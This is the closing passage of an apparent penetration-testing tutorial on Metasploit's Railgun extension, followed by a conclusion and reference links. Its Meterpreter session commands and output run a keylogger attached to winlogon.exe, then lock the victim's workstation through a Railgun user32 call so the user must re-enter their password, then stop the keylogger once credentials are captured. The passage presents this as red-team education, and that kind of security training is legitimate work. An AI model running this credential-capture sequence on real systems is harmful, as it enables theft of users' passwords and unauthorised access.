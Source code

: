 Railgun to the rescue again:
```
# Start the keylogger running in the background dumping keys every 15 seconds, attached to Winlogon**   
meterpreter > bgrun keylogrecorder -c 1 -t 15        
[*] Executed Meterpreter with Job ID 0        
meterpreter > 
[*] winlogon.exe Process found, migrating into 640        
[*] Migration Successful!!        
[*] Starting the keystroke sniffer...        
[*] Keystrokes being saved in to /root/.msf3/logs/scripts/keylogrecorder/192.168.92.122_20100707.4539.txt        
[*] Recording         
  
# Drop to IRB to initialize railgun and lockout the workstation, forcing the user to use their credentials again.**

meterpreter > irb       
[*] Starting IRB shell        
[*] The 'client' variable holds the meterpreter client

client.core.use("railgun")       
=> true        
client.railgun.user32.LockWorkStation()        
=> {"GetLastError"=>0, "return"=>true}        
exit        
meterpreter >
```
Set up “tail -f” going on the log file for the keylogger and then kill the keylogger when you’ve gotten what you came for.
```
meterpreter > bglist       
[*] Job 0: ["keylogrecorder", "-c", "1", "-t", "15"]        
meterpreter > bgkill 0        
[*] Killing background job 0...        
meterpreter >
```
## Conclusion
Railgun is an important peice of software for budding penetration testers and red-teamers. Hopefully, this post has served as an adequate 
introduction into the power and possibililties of generating post exploitation scripts.

Moving forward we suggest reading the sourcecode of Metasploit's post exploitation scripts; where MSF and the community have already compiled a collection 
of scripts for your post exploitation needs.

## References
* https://www.offensive-security.com/metasploit-unleashed/api-calls/
* http://www.hahwul.com/2015/08/metasploit-metasploit-autorunscript.html
* http://www.hahwul.com/2016/02/metasploit-localexploitsuggester-local.html
* https://msdn.microsoft.com/en-us/library/windows/desktop/ms687393(v=vs.85).aspx
* https://msdn.microsoft.com/en-us/library/windows/desktop/ms645505(v=vs.85).aspx
